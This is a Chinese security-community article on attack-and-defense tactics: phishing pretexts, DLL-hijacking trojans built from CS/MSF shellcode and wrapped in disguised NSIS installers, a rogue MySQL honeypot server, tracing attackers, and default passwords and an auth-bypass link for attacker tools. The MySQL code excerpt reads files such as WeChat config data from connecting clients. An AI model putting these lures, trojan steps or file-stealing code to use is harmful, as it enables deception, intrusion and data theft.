









# 奇安信攻防社区 - 攻防千层饼

### 攻防千层饼

近年来，网络安全领域正在经历一场不断升级的攻防对抗，这场攻防已经不再局限于传统的攻击与防御模式，攻击者和防守者都已经越发熟练，对于传统攻防手法了如指掌。

近年来，网络安全领域正在经历一场不断升级的攻防对抗，这场攻防已经不再局限于传统的攻击与防御模式，攻击者和防守者都已经越发熟练，对于传统攻防手法了如指掌。

在这个背景下，攻击者必须不断寻求创新的途径，以突破外部网络目标的坚固防护体系，利用零日漏洞、社会工程学手法、供应链攻击、投毒攻击，或者更加隐秘的攻击向量，以规避传统的检测与响应机制。防守方也不再仅仅依赖于传统的防御策略，如 IP 封锁或简单的入侵检测，已经转向主动防御甚至主动进攻，采取主动情报收集、分析与分享，实时威胁情报监测、云安全服务、容器化防护等安全防护，以应对不断进化的威胁。更加激进的防守方会选择积极主动的策略，对攻击者发起反制攻击，拿下权限获取情报（更多的是被逼的，谁不想躺两周呢）。

本文将探讨这些非常规的攻击与防御手段。

# 钓鱼

在网络攻防中，社会工程学攻击（如钓鱼）是一种常见的攻击手段。攻击者利用人们的心理和行为特点，通过欺骗、伪装等手段获取敏感信息或实施其他恶意活动。

## 钓鱼攻击

目前钓鱼的形式多种多样，有常规钓鱼手段通过邮箱、微信等 IM 工具钓鱼，也有供应链官方升级文件投毒，代码投毒。

### 求职招聘

攻击者伪装求职平台的求职者，联系 HR 私加微信。经常聊天降低风险意识，并套话使用的什么终端设别，发送伪装成求职简历的木马文件名，HR 运行上线。  


或者伪装 HR 联系求职者


### 投毒

在 github，公众号等地方投毒

  
供应链投毒


### 社会工程学

通过在社交平台寻找疑似工作人员（重点关注微博抖音快手小红书），然后通过 OSINT 定制化钓鱼攻击，博取对方信任，然后投放木马


### 仿冒 IT 运维人员

以密码过期、系统升级等理由，要求打开链接输入账号密码或者下载恶意附件




### 补贴


### 吃瓜

通过捏造吃瓜事件，吸引受害者点击恶意文件，在攻防时慎用此方式钓鱼，可能会被警告（21 年某象）




## 反钓鱼攻击

可以在经过网络隔离的环境中模拟被钓鱼人员，运行攻击者的木马程序，同时准备一些模拟的敏感文件，例如 VPN 账号和密码、运维手册等等。这样，当攻击者尝试下载和运行这个木马程序时，可以对其进行反制。

### DLL 劫持制作木马

合法程序在运行的时候需要加载合法的 dll，使用恶意的 dll 通过函数调用劫持合法 dll，达到运行合法程序加载恶意 dll 的效果

使用拿破轮胎大佬的工具（工具下载网盘：链接[https://pan.baidu.com/s/1w8T5vgfGnIBU2Gkpq1kogQ](https://pan.baidu.com/s/1w8T5vgfGnIBU2Gkpq1kogQ)

提取码：c29j）可以直接自动化劫持 dll。

使用 CS 或者 MSF 的 shellcode 生成 dll 文件，这时文件目录会自动生成 conf.inf 文件和 wwwcomw.dll 文件，然后选择生成的 wwwcomw.dll 文件和要劫持的 exe 文件，即可生成被劫持的恶意程序。



将 conf.inf 文件和 wwwcomw.dll 文件放入到和劫持的文件同一目录，点击运行即可执行 shellcode



### NSIS 制作安装包

使用 nsis 可以将上述多个文件打包成一个安装包，并可伪装成任意软件。软件下载地址：[https://www.pc6.com/softview/SoftView\_14342.html](https://www.pc6.com/softview/SoftView_14342.html) 软件使用教程：[https://www.cnblogs.com/modou/p/3573772.html](https://www.cnblogs.com/modou/p/3573772.html)


# mysql 蜜罐

21 年国家 HW 时，某知名社区官方账号就曾使用该方法进行钓鱼，在一篇分析投毒代码中留下 Mysql 蜜罐的账号密码，吸引好事者登录 mysql 蜜罐，窃取敏感信息。


## LOAD DATA LOCAL INFILE

LOAD DATA LOCAL INFILE 是 MySQL 中用于将数据从本地文件加载到数据库表中的命令。这个命令允许用户通过指定本地文件的路径将数据导入到数据库表中。

读取服务端上的文件内容存入表中：

```php
load data infile "文件" into table "表名" fields terminated by '分隔符';
```

读取客户端上的文件内容存入表中：

```php
load data local infile "文件" into table "表名" fields terminated by '分隔符';
```

查看 LOAD DATA LOCAL INFILE 功能开关状态

```php
show global variables like 'local_infile';
```

  
将 LOAD DATA LOCAL INFILE 功能打开

```php
set global local_infile=1;
```

## 蜜罐

利用代码伪造连接信息

  
尝试读取文件信息

```php
 if 'SET NAMES utf8' in res4:
                        conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                            conn.close()
                    else:
                        conn.close()
                else:
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content = conn.recv(99999999)
                # print(len(content))
                conn.close()
                if len(content) > 4:
                    if 'PFRO' in filename:
                        with open(logpath + "/PFRO.log", "w") as f:
                            f.write(content)
                            f.close()
                        return True
                    else:
                        with open(logpath + "/" + filename.replace("/", "_").replace(":", ""), "w") as f:
                            f.write(content)
                            f.close()
                        return True
                else:
                    return False
            except Exception as e:
                print (e)
    except Exception as e:
        print (e)

def run():
    port = 3306
    sv = socket.socket()
    sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sv.bind(("",port))
    sv.listen(100)

    while True:
        conn, address = sv.accept()
        logpath = os.path.abspath('.') + "/log/" + address[0] + '/PFRO.log'
        if os.path.exists(logpath):
            with open(logpath, 'r')as f:
                content = f.read()
            f.close()
            content = content.replace('\n','').replace('\r','').replace(' ','').replace('\t','').replace('\00','')
            try:
                res = re.findall(r'Users\\(.*)\\', content)[0]
                username = res.split('\\')[0]
                line = 'C:/Users/' + username + '/Documents/WeChat Files/All Users/config/config.data'              
                if not os.path.exists(os.path.abspath('.') + "/log/" + address[0]+'/'+line.replace("/", "_").replace(":", "")):
                    res = mysql_get_file_content(line,conn,address)
                    if res:
                        print ("Read Success! ---> " + line)
                    else:
                        print ("Not Found~ ---> " + line)
                else:
                    conn.close()
            except Exception as e:
                print(e)
        else:
            line = 'C:/Windows/PFRO.log'
            res = mysql_get_file_content(line,conn,address)
            if res:
                print ("Read Success! ---> " + line)
            else:
                print ("Not Found~ ---> " + line)
```

项目地址：[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

# 溯源反制

## 溯源

### 钓鱼邮件溯源

从邮件头入手，通常会包括"Received"字段，其中包含有关邮件传输的信息，如发件服务器的 IP 地址，对 IP 地址进行反查溯源。


对邮箱账号进行溯源如“@qq.com”、“@gmail.com”等此类字符串，搜索账号等，如果使用的是私有域名邮箱，可以从这方面入手，有次就碰见 EwoMail 邮箱管理后台一般为 8010 端口使用了默认口令 admin/ewomail123。



邮件中可能包含域名链接或者后门木马也可进行溯源。

### 后门木马溯源

后门木马类型可能包括 LNK、EXE、DOCX 等。DOCX 文件可能包含“最后编辑者名称”，EXE 文件中可能包含 PDB 信息，尤其是在开发人员将项目存放在桌面时，这可能会导致编译信息与开发人员的终端名称相关联，LNK 文件在创建时可能会捕获计算机名称。对回连 C2IP 溯源。


### NPS

#### 未授权访问

当使用默认配置未配置 auth\_key 参数时，可以利用时间戳直接伪造管理员 token 的漏洞。脚本利用：[https://github.com/0xf4n9x/NPS-AUTH-BYPASS](https://github.com/0xf4n9x/NPS-AUTH-BYPASS)

#### 默认密码

nps 的默认账号密码为 admin/123


### 灯塔

#### 默认密码

灯塔的默认账号密码为 admin/arlpass

## 反溯源

### NPS

故意留下未授权访问漏洞，或者易被猜解漏洞，如 HW@2023，客户端内留下网络隔离环境的代理，同反钓鱼攻击。

### 灯塔

在一次攻防时，对攻击 IP 进行测绘，发现灯塔资产，使用未授权访问直接进入后台，发现大量 shell。

  
还好当时留了个心眼儿，用沙箱跑了一下，发现全是木马，也是学到了一波。


